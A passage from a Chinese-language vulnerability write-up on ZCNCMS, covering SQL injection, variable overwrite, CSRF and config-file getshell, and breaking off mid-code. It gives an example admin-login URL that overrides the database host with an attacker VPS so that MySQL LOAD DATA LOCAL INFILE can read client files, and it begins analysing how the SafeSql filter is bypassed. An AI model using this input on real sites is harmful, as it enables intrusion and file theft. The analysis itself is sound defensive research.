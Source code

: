 eg: [http://localhost/zcncms/admin/?c=login&amp;db_host=vps_ip&amp;db_name=root&amp;db_pass=root&amp;db_table=zcncms](http://localhost/zcncms/admin/?c=login&amp;db_host=vps_ip&amp;db_name=root&amp;db_pass=root&amp;db_table=zcncms)

[![](https://p5.ssl.qhimg.com/t010ef8544043fd66fa.png)](https://p5.ssl.qhimg.com/t010ef8544043fd66fa.png)

[![](https://p2.ssl.qhimg.com/t016d1156b2195972cf.png)](https://p2.ssl.qhimg.com/t016d1156b2195972cf.png)

### <a class="reference-link" name="%E5%AE%A2%E6%88%B7%E7%AB%AF%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96"></a>客户端任意文件读取

以上的利用方法仅限于默认安装数据库，数据库名及表和列名都不变的情况。因此想到利用前段时间比较火的MySQL LOAD DATA LOCAL INFILE任意客户端文件读取。

[![](https://p0.ssl.qhimg.com/t01fc0936813dbee7e5.png)](https://p0.ssl.qhimg.com/t01fc0936813dbee7e5.png)

[![](https://p2.ssl.qhimg.com/t018a01b4f0961beca3.png)](https://p2.ssl.qhimg.com/t018a01b4f0961beca3.png)

其他漏洞如后台CSRF及后台getshell不放图了，下面具体分析一下这些漏洞成因及修复方法。



## 漏洞代码分析

分析的漏洞包括，SQL注入、变量覆盖、CSRF、修改配置文件getshell。

### <a class="reference-link" name="SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E"></a>SQL注入漏洞

首先看漏洞产生的代码部分

```
//module/menus/admincontroller/menus.php
//第33行至63行
……
if($parentid == 0) `{`
    $rootid = 0;
    `}` else`{`
    $parent = $menus-&gt;GetInfo('',' id = '.$parentid);
    if($parent['parentid'] == 0) `{`
        $rootid = $parentid;
        `}` else`{`
            $rootid = $parent['rootid'];
    `}`
`}`
……
```

由于$parentid变量没有intval强制转换类型并且可控，因此漏洞发生。接下来分析绕过全局防注入ids。

```
//db.class.php
    function SafeSql($db_string,$querytype='select')`{`
        //var_dump($db_string);
        //完整的SQL检查
        //$pos = '';
        //$old_pos = '';
        $pos = 0;
        $old_pos = 0;
        $clean = '';
        if(empty($db_string))`{`
            return false;
        `}`
        while (true)`{`            
            $pos = strpos($db_string, ''', $pos + 1);
```